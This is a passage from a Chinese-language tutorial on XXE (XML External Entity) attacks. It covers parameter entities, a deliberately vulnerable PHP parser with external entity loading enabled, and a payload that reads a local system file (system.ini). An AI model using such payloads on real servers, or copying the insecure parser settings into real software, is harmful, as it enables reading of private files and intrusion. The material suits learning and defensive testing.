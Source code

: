 2. 参数实体

   - 定义：`% 实体名`在**DTD中**定义；引用：`%实体名;`在**DTD中**引用
   - 只有在DTD文件中，参数实体的声明才能引用其他实体
   - 和通用实体一样，也可引用外部实体

   ```dtd
   <!ENTITY % an-elem "<!ELEMENT mytag(subtag)>">
   <!ENTITY % remote-dtd SYSTEM "http:/ip/remote.dtd">
   %an-elem; %remote-dtd
   ```

   ps：参数实体在Blind XXE中很关键

## 4 能做什么

### 4.1 有回显读取本地文件(Normal XXE)

场景模拟：服务器能接受并解析XXE，并且有回显。

xml.php

```php
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;

?>
```

payload

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```

结果：

![image-20191025165211139](/Users/furuijuan/Library/Application Support/typora-user-images/image-20191025165211139.png)

**But**，如果有特殊符号，就会报错了。因为xml并不直接输出`< > & "`之类的字符，因为元素/实体也是用的这些。这时需要用到`CDATA`，他会把所有的数据当作数据的常量，而非标记/实体。

```dtd
<![CDATA[xxxx]
]>
```

所以，如果有特殊字符，只需要放在这个里面输出就行了。但是如何做到？肯定是把要输出的内容两边加上`<![CDATA[`和 `]]>`。
